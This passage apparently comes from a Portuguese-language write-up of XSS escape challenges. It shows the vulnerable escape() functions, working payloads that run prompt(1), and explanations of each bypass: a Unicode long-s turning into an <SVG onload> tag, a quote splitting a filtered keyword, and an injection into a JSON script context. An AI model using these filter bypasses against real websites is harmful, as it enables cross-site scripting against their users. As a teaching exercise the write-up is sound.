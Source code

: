 Explicação:
A função aplica um regex que só reconhece letras ASCII após `<`, permitindo escapar com o caractere `ſ` (U+017F).  
Quando convertido para maiúsculo, `ſ` se torna `S`, resultando em `<SVG>`, uma tag válida.  
Com isso, o atributo `onload` é executado automaticamente no momento em que o SVG é renderizado.

#### Desafio A

Código:
````
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}
````
Resolução funcional:
````
promp't(1)
````

<img width="2336" height="1022" alt="image" src="https://github.com/user-attachments/assets/a19d33c8-8e0b-4d5b-a3d9-c4e0eb6d11ab" />

Explicação:
O código utiliza duas regex: a primeira substitui `prompt` por `alert` e a segunda remove aspas simples.  
Com isso, ao inserir `prompt(1)` o resultado exibido é `alert(1)`.  
No entanto, ao colocar uma aspa simples dentro da palavra `prompt`, o termo já não corresponde ao padrão buscado pela regex e permanece intacto, permitindo a execução.

#### Desafio B

Código:
````
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}  
````
Resolução funcional:
````
"(prompt(1))in"
````
